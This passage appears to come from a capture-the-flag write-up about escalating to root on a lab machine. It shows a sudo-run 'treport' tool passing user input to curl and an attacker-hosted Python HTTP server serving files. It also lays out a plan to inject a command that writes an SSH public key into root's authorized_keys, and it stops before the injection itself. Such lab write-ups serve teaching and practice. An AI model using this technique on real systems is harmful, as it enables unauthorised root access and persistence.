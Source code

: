 Running the binary it displays multiple options.

```
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:
```

To test the `3.Download A Threat Report.` functionality we first create a testfile and server it with a python server.

```
$ echo dhsanj > test
$ sudo python3 -m http.server 80
```

Retrieving it with `treport` we can see that curl is used to retrieve it and our argument is passed to it.

```
Enter your choice:3
Enter the IP/file_name:10.10.14.63/test
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0Warning: Failed to create the file /root/reports/threat_report_09_25_08: No
Warning: such file or directory
100     7  100     7    0     0    118      0 --:--:-- --:--:-- --:--:--   120
curl: (23) Failed writing body (0 != 7)
Enter your choice:
```

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.192.66 - - [28/Nov/2021 09:25:29] "GET /test HTTP/1.1" 200 -
```

This seems very interesting for command injection. First we need a file we want to write on the target system. A public ssh key into root's authorized_keys seems like a good candidate.

```
$ ssh-keygen -f root
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in root
Your public key has been saved in root.pub
The key fingerprint is:
```

We serve the public key again using python.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
